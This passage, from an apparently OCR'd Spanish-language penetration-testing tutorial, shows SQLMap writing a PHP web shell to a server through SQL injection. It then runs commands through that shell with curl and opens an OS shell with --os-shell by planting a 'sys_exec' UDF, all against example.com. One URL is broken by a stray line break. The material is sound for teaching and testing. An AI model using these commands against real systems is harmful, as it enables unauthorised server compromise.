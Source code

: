 ```r
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

Vemos que SQLMap confirmó que el archivo fue efectivamente escrito:

```r
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

Ahora, podemos intentar acceder a la PHP shell remota y ejecutar un comando de muestra:

```r
curl http://www.example.com/s

hell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

Vemos que nuestra PHP shell fue efectivamente escrita en el servidor remoto, y que tenemos ejecución de comandos sobre el servidor host.

---

## OS Command Execution

Ahora que confirmamos que podíamos escribir una PHP shell para obtener ejecución de comandos, podemos probar la capacidad de SQLMap para darnos una shell del sistema operativo fácil sin escribir manualmente una shell remota. SQLMap utiliza varias técnicas para obtener una shell remota a través de vulnerabilidades de SQL injection, como escribir una shell remota, como acabamos de hacer, escribir funciones SQL que ejecutan comandos y recuperan la salida o incluso usar algunas consultas SQL que ejecutan directamente comandos del sistema operativo, como `xp_cmdshell` en Microsoft SQL Server. Para obtener una shell del sistema operativo con SQLMap, podemos usar la opción `--os-shell`, como sigue:

```r
sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
```